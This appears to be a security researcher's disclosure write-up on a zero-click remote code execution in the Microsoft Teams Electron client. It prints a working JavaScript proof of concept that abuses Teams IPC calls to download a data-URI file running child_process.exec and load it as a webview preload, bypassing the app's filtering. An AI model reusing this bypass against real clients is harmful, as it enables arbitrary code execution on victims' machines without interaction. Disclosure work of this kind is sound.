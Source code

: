 MS Teams ElectronJS security: `remote-require` is disabled & filtered, `nodeIntegration` is `false`, `webview` creation is filtered and normally removes insecure params/options. You cannot simply import `child_process` and execute arbitrary code or create a `webview` with a custom `preload` option.

# Demos & RCE

## _redacted_ payload - invisible to victim (no new window)

![no window redacted RCE](/media/ms-teams-redacted-rce-2020-08.gif)

Ok, the injected template string is visible for a split second, but normally you wouldn't see it - as can be evidenced in the next demo and all the rest of AngularJS template strings in Teams you don't see. I attribute the glitch to the HTTP proxy, general slowness of the app, live-reloading and the fact that it's a demo so it must fail in some way 🙂 

```javascript
// redacted no new window RCE payload until ~2021 as requested by Microsoft
```

## Payload with a new window

![file download webview preload RCE](/media/ms-teams-new-window-rce-2020-08.gif)

The blank window could have arbitrary content, size, look - it's  "suspiciously blank" because it's a PoC.

[original MOV file here](/media/ms-teams-mention-rce2-2020-08-30.mov)

No user interaction is required, exploit executes upon seeing the chat message. This exploit bypasses webview restrictions and abuses MS Teams API calls to "download" a file and use it as `preload` (nodeJS context) for a `webview`. Teams actually filters `webview` creation - filtering `preload` and other dangerous options, but in this way the check could be bypassed. Probably the idea could be used in other, older ElectronJS apps.


```javascript
cmd = `open /System/Applications/Calculator.app` // change to windows/linux command as required

stage1 = `data:text/plain,cp=require('child_process');cp.exec('${cmd}')`; // create a virtual file to download
this.electronSafeIpc.send(`desktopFileDownload`, stage1); // request to download file

// implement an event handler when files downloaded to trigger payload
this.electronSafeIpc.on(`desktop-file-download-finished`, (_, fileinfo) => { 
        f = fileinfo.uniqueFile.filePath; // event gives us file path which we don't know beforehand
        
        // create a new webview mockup - window with a webview tag and our virtual, downloaded file as preload
        stage2 = `data:text/html,<webview src='about:blank' preload='file:///${f}'></webview>`
        this.electronSafeIpc.send(`allowWindowOpenUrl`, stage2); // abusing MS Teams IPC API to allow above URL
        this.w = window.open(stage2); // URL gets opened, webview gets created with our virtual, downloaded file preload
        setTimeout(()=>{this.w.close()},1000) // not necessary, but let's close the custom window
    }
)
```
